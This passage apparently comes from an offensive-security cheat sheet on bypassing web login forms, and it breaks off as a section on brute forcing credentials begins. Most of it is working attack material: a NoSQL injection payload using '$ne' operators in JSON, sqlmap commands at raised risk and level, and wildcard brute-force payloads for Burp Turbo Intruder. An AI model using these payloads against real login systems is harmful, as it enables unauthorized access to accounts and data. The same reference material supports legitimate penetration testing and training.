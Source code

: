 - **Operators in Json**

    If the above payloads not working, try changing to a json format.  
    We also need to change the value of the **Content-Type** to **“application/json”** in the HTTP header.

    ```bash
    Content-Type: application/json

    {"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
    ```

## SQL Injection with SQLmap

Alternatively, we can automate **SQLi** using **`sqlmap`**.

```bash
# 'req.txt' is a file which can be downloaded in Burp Suite by clicking `save item` on the request.
sqlmap -r req.txt
sqlmap -r req.txt --risk 2 --level 5
sqlmap -r req.txt --risk 3 --level 5
```

Please see [SQL Injection with Sqlmap](/exploit/web/security-risk/sql-injection-with-sqlmap) page for details.

<br /><br />

## Wildcard Brute Force

If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.

```bash
username = *
password = *
```

For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.

```bash
username=%s*&password=*
# or
username=*&password=%s*
```

My favorite wordlist for it is the seclists:  
[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt)

<br /><br />

## Brute Force Credentials

Before brute forcing, we need wordlists used for it.
